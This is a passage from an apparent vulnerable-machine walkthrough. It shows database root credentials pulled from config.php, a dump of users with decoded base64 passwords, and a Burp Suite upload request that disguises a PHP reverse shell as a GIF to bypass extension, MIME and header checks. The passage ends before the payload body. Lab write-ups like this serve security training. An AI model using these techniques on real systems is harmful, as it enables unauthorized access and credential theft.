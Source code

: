 3. The `config.php` page contains the MySQL credentials.

    ```php
	<?php
	$server	  = "localhost";
	$username = "root";
	$password = "H4u%QJ_H99";
	$database = "Users";
	?>
    ```

4. Using `mysql` and connect to the remote database as root. Once logged in, there is a database named users and below is the output of the database. The password is encoded with base64 format.

    ```sql
	MySQL [Users]> select * from users;
	+------+------------------+
	| user | pass             |
	+------+------------------+
	| kent | Sld6WHVCSkpOeQ== (JWzXuBJJNy) |
	| mike | U0lmZHNURW42SQ== (SIfdsTEn6I) |
	| kane | aVN2NVltMkdSbw== (iSv5Ym2GRo) |
	+------+------------------+
	3 rows in set (0.01 sec)
    ```


5. Open up Burpsuite and create a repeater with this snippet below. There are 3 important parts of this snippet. 

	* `.gif` extension - To bypass the listed whitelist extensions.
	* `image/gif` as content type - To bypass the mime type checker.
	* `GIF87a` header before the php tag - To fake the server thinking the file really is receiving a gif format by checking the file header.

	Executing the custom Burpsuite remote command to the server will generate a broken image link.

    ```shell
	POST /?page=upload HTTP/1.1
	Host: 192.168.16.129
	User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Referer: http://192.168.16.129/?page=upload
	Cookie: PHPSESSID=9vq5im5401eplh2imdb7tjoar0
	Connection: close
	Upgrade-Insecure-Requests: 1
	Content-Type: multipart/form-data; boundary=---------------------------6484244853519591111205641705
	Content-Length: 5848

	-----------------------------6484244853519591111205641705
	Content-Disposition: form-data; name="file"; filename="php-reverse-shell.gif"
	Content-Type: image/gif
